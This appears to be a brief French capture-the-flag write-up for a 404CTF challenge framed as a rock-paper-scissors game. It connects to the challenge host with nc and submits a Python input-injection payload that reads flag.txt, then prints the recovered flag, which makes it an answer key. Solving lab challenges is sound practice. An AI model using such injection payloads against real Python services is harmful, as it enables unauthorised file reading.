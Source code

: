 > Hallebarde a mis en place sa variante du Pierre-papier-ciseaux. À ce jour, personne de nos services n'est parvenu à vaincre l'ordinateur. Montrez-leur de quoi vous êtes capable en récupérant leur précieux flag.txt !

1. Lancer l'adresse: "nc challenge.404ctf.fr 30806"
2. Mettre la commande: `input(open("flag.txt", "r").read())`
3. Copier Coller le flag

| `404CTF{cH0iX_nUm3r0_4_v1c701r3}` |
|-----------------------------------|
